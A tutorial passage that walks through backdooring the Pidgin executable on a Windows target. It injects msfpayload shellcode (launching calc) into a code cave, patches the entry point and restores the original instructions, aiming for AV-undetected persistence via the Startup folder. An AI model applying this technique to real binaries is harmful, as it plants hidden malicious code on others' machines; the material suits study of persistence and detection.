

# The starup folder for all users contains a shortcut to Pidgin.
C:\> dir "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
Volume in drive C has no label.
Volume Serial Number is CA24-B8EA
Directory of C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
11/23/2014 01:09 AM <DIR> .
11/23/2014 01:09 AM <DIR> ..
11/23/2014 01:09 AM 1,328 pidgin.exe.lnk
1 File(s) 1,328 bytes
2 Dir(s) 55,254,183,936 bytes free
We could replace this binary with a backdoor, that way each time the system boots our malicious code would be run. However, doing so would be painfully obvious, Pidgin would not start and a closer investigation would immediately reveal our deception.
Instead, we will
(1) download the executable to our attacking machine,
(2) inject our malicious code into the binary,
(3) make sure it still works as intended and
(4) replace it on the target machine.
The resulting executable will be fully undetectable by AV and will not raise any undue suspicions as pidgin will still function normally. The necessary modification can be made using Immunity debugger (or Olly).
First we will need to take note of pidgin's module entry point. The instructions there are the first thing the program will execute when it is launched.
First we will need to take note of pidgin's module entry point. The instructions there are the first thing the program will execute when it is launched.

Next we need to find some empty space, large enough to store our shellcode. If you have ever taken a close look at PE executables you will know that there is a huge null-bytes padding at the end of each section (.text, .data, .rdata,..). In this case we can simply scroll down to the end of the ".text" section, the padding there will be a perfect location for our shellcode.
The basic principle is pretty straight forward:
(1) we need to modify the entry point to jump to the null-byte padding,
(2) at the jump destination we inject our shellcode,
(3) we fix any instructions we nuked at the entry point and hand the program control back over to the legitimate code.
First lets modify the entry point to jump to our null-byte padding. If you compare the new entry point with the old one you will notice that several instructions have been messed up. We will see how to correct those later.

Next we need to generate some shellcode which we can copy into the executable as our payload. As an aside, encoding the shellcode is not necessary, in fact doing so may cause issues when the decoder stub tries to unpack it.
# grep & tr to strip out all unnecessary data.
root@Josjikawa:~# msfpayload windows/exec cmd='calc' exitfunc='none' C |grep '"' |tr -d '"\\x;\n'
fce8890000006089e531d2648b52308b520c8b52148b72280fb74a2631ff31c0ac3c617c022c20c1cf0d01c7e2f052578b52108b42
3c01d08b407885c0744a01d0508b48188b582001d3e33c498b348b01d631ff31c0acc1cf0d01c738e075f4037df83b7d2475e2588b
582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe0585f5a8b12eb865d6a018d85b90000005068318b6f87ff
d5bbaac5e25d68a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd563616c6300
This shellcode will require some minor modifications to run correctly. When the shellcode gets executed the epilogue will end up calling "ntdll.KiFastSystemCallRet" which will in turn terminate execution flow. Since we want to preserve the original program flow we will need to stop this from happening. The resulting shellcode in the debugger can be seen below.
0040391C 60 PUSHAD Save registry and flag values!
0040391D 9C PUSHFD
0040391E FC CLD
0040391F E8 89000000 CALL pidgin.004039AD
00403924 60 PUSHAD
00403925 89E5 MOV EBP,ESP
00403927 31D2 XOR EDX,EDX
00403929 64:8B52 30 MOV EDX,DWORD PTR FS:[EDX+30]
0040392D 8B52 0C MOV EDX,DWORD PTR DS:[EDX+C]
00403930 8B52 14 MOV EDX,DWORD PTR DS:[EDX+14]
00403933 8B72 28 MOV ESI,DWORD PTR DS:[EDX+28]
00403936 0FB74A 26 MOVZX ECX,WORD PTR DS:[EDX+26]
0040393A 31FF XOR EDI,EDI- 0040393C 31C0 XOR EAX,EAX
0040393E AC LODS BYTE PTR DS:[ESI]
0040393F 3C 61 CMP AL,61
00403941 7C 02 JL SHORT pidgin.00403945
00403943 2C 20 SUB AL,20
00403945 C1CF 0D ROR EDI,0D
00403948 01C7 ADD EDI,EAX
0040394A ^E2 F0 LOOPD SHORT pidgin.0040393C
0040394C 52 PUSH EDX
0040394D 57 PUSH EDI
0040394E 8B52 10 MOV EDX,DWORD PTR DS:[EDX+10]
00403951 8B42 3C MOV EAX,DWORD PTR DS:[EDX+3C]
00403954 01D0 ADD EAX,EDX
00403956 8B40 78 MOV EAX,DWORD PTR DS:[EAX+78]
00403959 85C0 TEST EAX,EAX
0040395B 74 4A JE SHORT pidgin.004039A7
0040395D 01D0 ADD EAX,EDX
0040395F 50 PUSH EAX
00403960 8B48 18 MOV ECX,DWORD PTR DS:[EAX+18]
00403963 8B58 20 MOV EBX,DWORD PTR DS:[EAX+20]
00403966 01D3 ADD EBX,EDX
00403968 E3 3C JECXZ SHORT pidgin.004039A6
0040396A 49 DEC ECX
0040396B 8B348B MOV ESI,DWORD PTR DS:[EBX+ECX*4]
0040396E 01D6 ADD ESI,EDX
00403970 31FF XOR EDI,EDI
00403972 31C0 XOR EAX,EAX
00403974 AC LODS BYTE PTR DS:[ESI]
00403975 C1CF 0D ROR EDI,0D
00403978 01C7 ADD EDI,EAX
0040397A 38E0 CMP AL,AH
0040397C ^75 F4 JNZ SHORT pidgin.00403972
0040397E 037D F8 ADD EDI,DWORD PTR SS:[EBP-8]
00403981 3B7D 24 CMP EDI,DWORD PTR SS:[EBP+24]
00403984 ^75 E2 JNZ SHORT pidgin.00403968
00403986 58 POP EAX
00403987 8B58 24 MOV EBX,DWORD PTR DS:[EAX+24]
0040398A 01D3 ADD EBX,EDX
0040398C 66:8B0C4B MOV CX,WORD PTR DS:[EBX+ECX*2]
00403990 8B58 1C MOV EBX,DWORD PTR DS:[EAX+1C]
00403993 01D3 ADD EBX,EDX
00403995 8B048B MOV EAX,DWORD PTR DS:[EBX+ECX*4]
00403998 01D0 ADD EAX,EDX
0040399A 894424 24 MOV DWORD PTR SS:[ESP+24],EAX
0040399E 5B POP EBX
0040399F 5B POP EBX
004039A0 61 POPAD
004039A1 59 POP ECX
004039A2 5A POP EDX
004039A3 51 PUSH ECX
004039A4 FFE0 JMP EAX
004039A6 58 POP EAX
004039A7 5F POP EDI
004039A8 5A POP EDX
004039A9 8B12 MOV EDX,DWORD PTR DS:[EDX]
004039AB ^EB 86 JMP SHORT pidgin.00403933
004039AD 5D POP EBP
004039AE 6A 01 PUSH 1
004039B0 8D85 B9000000 LEA EAX,DWORD PTR SS:[EBP+B9]
004039B6 50 PUSH EAX
004039B7 68 318B6F87 PUSH 876F8B31
004039BC FFD5 CALL EBP
004039BE EB 22 JMP SHORT pidgin.004039E2 ---| Hook the shellcode epilog before it ends up
004039C0 90 NOP | calling ntdll.KiFastSystemCallRet
004039C1 90 NOP |
004039C2 90 NOP |
004039C3 68 A695BD9D PUSH 9DBD95A6 |
004039C8 FFD5 CALL EBP |
004039CA 3C 06 CMP AL,6 |
004039CC 7C 0A JL SHORT pidgin.004039D8 |
004039CE 80FB E0 CMP BL,0E0 |
004039D1 75 05 JNZ SHORT pidgin.004039D8 |
004039D3 BB 4713726F MOV EBX,6F721347 |
004039D8 6A 00 PUSH 0 |
004039DA 53 PUSH EBX |
004039DB FFD5 CALL EBP |
004039DD 6361 6C ARPL WORD PTR DS:[ECX+6C],SP |
004039E0 6300 ARPL WORD PTR DS:[EAX],AX |
004039E2 9D POPFD <----- | Restore registry and flag values! ESP has
004039E3 61 POPAD not changed, else we would first need to
add a static value to align the stack.
Before we return execution flow to the module entry point we need to fix the instruction we nuked. Let's compare the module entry point before and after our modification.
All that remains is to append the nuked assembly to the end of our shellcode and jump back to the first untouched instruction at the module entry point.
004039E2 > 9D POPFD
004039E3 . 61 POPAD
004039E4 . 83EC 1C SUB ESP,1C # Instruction restored!
004039E7 . C70424 0200000>MOV DWORD PTR SS:[ESP],2 # Instruction restored!
004039EE .^E9 B7D8FFFF JMP pidgin.004012AA # JMP back to module entry point.
We can now upload the file back to the target and overwrite the original executable. Any time Pidgin is launched, calc will also launch. Meanwhile, Pidgin will function normally, none of the original code has been modified!